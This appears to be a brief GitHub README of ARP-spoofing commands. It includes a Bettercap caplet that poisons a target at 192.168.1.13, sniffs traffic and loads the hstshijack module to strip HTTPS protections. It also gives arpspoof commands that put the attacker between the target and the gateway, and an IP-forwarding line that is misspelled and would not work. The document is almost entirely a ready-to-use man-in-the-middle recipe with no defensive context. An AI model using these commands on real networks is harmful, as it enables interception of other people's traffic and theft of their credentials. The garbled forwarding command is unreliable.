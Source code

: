 # spoofing-tip-s-and-command
# ARP Spoof using Bettercap
to run the spoof.cap file you need to add only target ip 
then run this command 
# bettercap -iface eth0 -caplet spoof.cap


net.probe on,
set arp.spoof.fullduplex true,
set arp.spoof.targets 192.168.1.13,
arp.spoof on,
set net.sniff.local true,
net.sniff on,
caplets.show,
hstshijack/hstshijack,


# arp spoofing
# arpspoof -i eth0 -t target-ip  router-gateway-ip
# arpspoof -i eth0 -t router-gateway-ip  target-ip

in case internet is not working use this command

# echo 1>/proc/sys/net/ipv4/ip-forword
